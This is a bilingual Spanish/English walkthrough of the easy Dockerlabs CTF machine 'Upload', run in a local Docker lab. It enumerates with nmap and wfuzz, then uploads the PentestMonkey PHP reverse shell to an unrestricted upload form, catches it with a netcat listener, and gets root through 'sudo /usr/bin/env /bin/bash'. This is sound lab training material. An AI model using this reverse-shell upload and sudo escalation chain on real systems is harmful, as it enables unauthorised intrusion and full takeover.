> **Hi, english below!**

Hola otra vez, vamos a resolver otra máquina de [Dockerlabs](https://dockerlabs.es/#/), en este caso la máquina se llama Upload y sigue siendo una de la categoría más fácil de Dockerlabs de [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg). 
Sin más que añadir vamos a ello, como siempre empezaremos por descargar la máquina y realizar su instalación, recordad que funcionan mediante docker por lo que estaremos creando un contenedor en nuestra máquina local en el que se almacenará la máquina víctima.





# Enumeración


Como siempre empezaremos realizando un ping a la máquina víctima para verificar que la misma se encuentra activa, una vez hecho esto, procederemos a realizar un escaneo básico de puertos para ver qué servicios están corriendo en la máquina.





En este caso, y al igual que hemos visto anteriormente, nos encontramos con un TTL(Time to Live) de 64, lo que nos indica que estamos ante una máquina Linux de nuevo. Sabiendo esto, vamos a realizar un escaneo básico de puertos para ver con qué nos encontramos en este caso.

``` sudo nmap -p- --open 172.17.0.2 --min-rate 5000 -vvv -oN escaneo ```





Podemos ver que únicamente nos encontramos con el puerto 80 abierto, indicándonos que en esta máquina podremos encontrar un servicio web funcionando en dicho puerto. De todas formas, vamos a realizar un escaneo más específico añadiendo el parámetro -sCV a nuestro comando de nmap, indicando los puertos en específico a los cuales queremos realizar la enumeración, en nuestro caso, el puerto 80.

``` -sC ``` -----> Lanzaremos scripts básicos de reconocimiento
``` -sV ``` -----> Trataremos de enumerar las versiones de los servicios
``` -sCV ``` -----> Combina ambas funciones

``` sudo nmap -p 80 -sCV 172.17.0.2 --min-rate 5000 -vvv -oN escaneoSC ```





Se nos indica que el sistema operativo podría ser un Ubuntu, de cualquier forma, no parece haber nada demasiado interesante por aquí, por lo que vamos a proceder a inspeccionar nosotros mismos lo que tenemos en ese puerto. También podemos ver que se nos muestra la versión de Apache siendo la 2.4.52.





¿Qué tenemos por aquí? Parece que tenemos una función de subida de archivos. Aunque esto ya es bastante interesante de por sí, vamos a intentar enumerar un poco este servicio web haciendo fuzzing para listar los directorios disponibles.

``` wfuzz -u http://172.17.0.2/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hc 404 -c ```







Una vez realizado este escaneo vamos a probar el funcionamiento de este campo de subida de archivos, para esto lo primero que haremos será preparar nuestro querido BurpSuite, el cual nos proporciona funciones muy interesantes de cara a auditorías de servicios web. Esto lo hace una herramienta indispensable para cualquier pentester.





Accederemos a la pestaña de proxy para ser capaces de interceptar la petición una vez subamos un archivo. Antes de ser capaces de hacer esto tendremos que hacer ciertas configuraciones tanto en BurpSuite como en nuestro navegador. Para el navegador usaremos una extensión llamada FoxyProxy, en esta indicaremos un puerto que será nuestro proxy y el cual deberemos de indicar también en la configuración de BurpSuite para que todo funcione correctamente.








# Explotación

Con estas configuraciones realizadas vamos a descargar una reverse shell en php para tratar de subirla a la web objetivo. Personalmente os recomiendo la reverse shell de [PentestMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
La descargaremos y tendremos que cambiar un par de opciones con cualquier editor de texto como nano, vim o mousepad. 

``` wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php  ```




Tendremos que editar los campos de IP y PORT, indicando nuestra dirección IP y un puerto en el que nos tendremos que poner en escucha para recibir la shell en el caso de que nuestra subida maliciosa funcione correctamente. Para ponernos en escucha usaremos el siguiente comando:

``` nc -lvnp $TUPUERTO ```





Con todo esto solucionado ahora sí es el momento, antes de interceptar nuestra petición con Burp trataremos de subir nuestra shell directamente en el campo de subida de archivos. 








Vaya, parece que nos ha permitido subir directamente nuestra shell, por lo que en este caso no tendremos que hacer uso de BurpSuite. De cualquier forma hemos visto un rápido tutorial de cómo configurar el mismo, os aseguro que lo vamos a usar, pero lo dejaremos para próximos capítulos xD 
Con nuestra shell disponible en la web y nuestra máquina atacante en escucha, lo único que tenemos que hacer es navegar hasta donde se encuentra la misma para activarla. 





Veremos que se queda pensando, eso tiene una sencilla explicación, la shell ha funcionado y si vamos a nuestra máquina atacante podremos ver que nuestro netcat ha recibido una conexión, ¡estamos dentro de la máquina víctima!





# Post-Explotación


Una vez en este punto lo que queremos hacer es estabilizar nuestra shell ya que ahora mismo será bastante inestable y podríamos llegar a perderla. Para esto usaremos una secuencia de comandos que nos proporcionarán una shell estable (y más bonita).

En la máquina víctima

``` python -c 'import pty; pty.spawn("/bin/bash")' ```



No tenemos python disponible en la máquina víctima así que usaremos este otro comando:

``` script /dev/null -c bash ```





``` export TERM=xterm ```

 


Con esto realizado usaremos la combinación CTRL+Z en nuestro teclado para poner la shell en segundo plano e introduciremos en nuestra máquina atacante el comando ``` stty raw -echo; fg ```, luego pulsaremos enter una vez y estaremos de nuevo en la máquina víctima. Dentro de esta usaremos el comando ``` stty rows 38 columns 116 ```. Con todo esto realizado tenemos una shell totalmente funcional.




Genial, ahora vamos a enumerar la máquina desde dentro, lo primero que queremos es observar qué usuarios están disponibles en el sistema. Para realizar esto simplemente tenemos que leer el archivo /etc/passwd.





Parece que no hay ningún usuario al que pivotar, por lo que en este caso trataremos de elevar nuestros privilegios desde el usuario actual. Usaremos el comando siguiente para enumerar los servicios con permisos SUID:

``` find / -user root -perm /4000 2>/dev/null ```





Nada interesante, aunque podemos ver que está disponible el comando sudo. Usaremos ``` sudo -l ``` para ver si podemos utilizar este comando para ejecutar algo que nos permita elevar nuestros privilegios. 





¡Bien! Podemos utilizar sudo con el binario env. En este caso la elevación de privilegios es sencilla ya que simplemente tendremos que utilizar el comando ``` sudo /usr/bin/env /bin/bash ``` para conseguir ser el usuario root y tener control total sobre la máquina víctima.





Máquina superada con éxito, espero que os haya gustado mucho. Un besito :)


---------------------------------------------------------------------------------------------------------------------------------------------------


Hello again, let's tackle another machine from [Dockerlabs](https://dockerlabs.es/#/). This time, the machine is called Upload and it is still one of the easiest categories from Dockerlabs by [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg). Without further ado, let's get started. As always, we'll begin by downloading the machine and installing it. Remember that these machines work via Docker, so we will be creating a container on our local machine where the target machine will be stored.


# Enumeration


As always, we'll start by pinging the target machine to verify that it is active. Once confirmed, we will proceed with a basic port scan to see what services are running on the machine.


In this case, similar to what we have seen before, we encounter a TTL (Time to Live) of 64, indicating that we are dealing with a Linux machine again. Knowing this, we will perform a basic port scan to see what we find.

``` sudo nmap -p- --open 172.17.0.2 --min-rate 5000 -vvv -oN escaneo ```


We can see that only port 80 is open, indicating that we will find a web service running on this port. Regardless, let's perform a more specific scan by adding the -sCV parameter to our nmap command, specifying the ports we want to enumerate, in our case, port 80.

-sC  # Launch basic reconnaissance scripts
-sV  # Attempt to enumerate service versions
-sCV # Combine both functions

``` sudo nmap -p 80 -sCV 172.17.0.2 --min-rate 5000 -vvv -oN scanSC ```


It indicates that the operating system could be Ubuntu. In any case, there doesn't seem to be anything too interesting here, so let's proceed to inspect what we have on that port ourselves. We can also see that the Apache version is 2.4.52.


What do we have here? It looks like we have a file upload function. Although this is quite interesting in itself, let's try to enumerate this web service a bit by fuzzing to list the available directories.

``` wfuzz -u http://172.17.0.2/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hc 404 -c ```


Once this scan is complete, let's test the functionality of this file upload field. To do this, the first thing we'll do is prepare our beloved BurpSuite, which provides very interesting functions for web service audits. This makes it an indispensable tool for any pentester.


We will access the proxy tab to be able to intercept the request once we upload a file. Before we can do this, we will have to make some configurations both in BurpSuite and in our browser. For the browser, we will use an extension called FoxyProxy, where we will indicate a port that will be our proxy and which we will also have to indicate in the BurpSuite configuration for everything to work correctly.


# Exploitation

With these configurations done, let's download a reverse shell in PHP to try to upload it to the target website. Personally, I recommend the reverse shell from [PentestMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
We will download it and have to change a couple of options with any text editor like nano, vim, or mousepad.

``` wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php  ```


We will need to edit the IP and PORT fields, specifying our IP address and a port where we will listen to receive the shell if our malicious upload works correctly. To set up a listener, we will use the following command:

``` nc -lvnp $YOURPORT ```


With all this set up, now is the moment. Before intercepting our request with Burp, we will try to upload our shell directly in the file upload field.


Wow, it looks like it allowed us to upload our shell directly, so in this case, we won't need to use BurpSuite. Anyway, we've seen a quick tutorial on how to set it up, I assure you we will use it, but we'll leave it for future episodes xD
With our shell available on the web and our attacking machine listening, all we have to do is navigate to where it is located to activate it.


You will see it thinking, which has a simple explanation: the shell has worked and if we go to our attacking machine, we will see that our netcat has received a connection, we are inside the target machine!


# Post-Exploitation


Once at this point, we want to stabilize our shell since it will be quite unstable and we could lose it. To do this, we will use a sequence of commands that will provide us with a stable (and prettier) shell.

On the target machine:

``` python -c 'import pty; pty.spawn("/bin/bash")' ```


We don't have Python available on the target machine, so we'll use this other command:

``` script /dev/null -c bash ```


``` export TERM=xterm ```

 


With this done, we will use the CTRL+Z combination on our keyboard to put the shell in the background and enter the command ``` stty raw -echo; fg ``` on our attacking machine. Then press enter once and we will be back on the target machine. Inside it, we will use the command ``` stty rows 38 columns 116 ```. With all this done, we have a fully functional shell.


Great, now let's enumerate the machine from the inside. The first thing we want to do is see which users are available on the system. To do this, we simply need to read the /etc/passwd file.


It seems there are no users to pivot to, so in this case, we will try to escalate our privileges from the current user. We will use the following command to enumerate services with SUID permissions:

``` find / -user root -perm /4000 2>/dev/null ```


Nothing interesting, although we can see that the sudo command is available. We will use sudo -l to see if we can use this command to execute something that allows us to escalate our privileges.


Great! We can use sudo with the env binary. In this case, privilege escalation is simple because we just need to use the command ``` sudo /usr/bin/env /bin/bash ``` to become the root user and have full control over the target machine.


Successfully completed the machine, I hope you enjoyed it. A little kiss :)
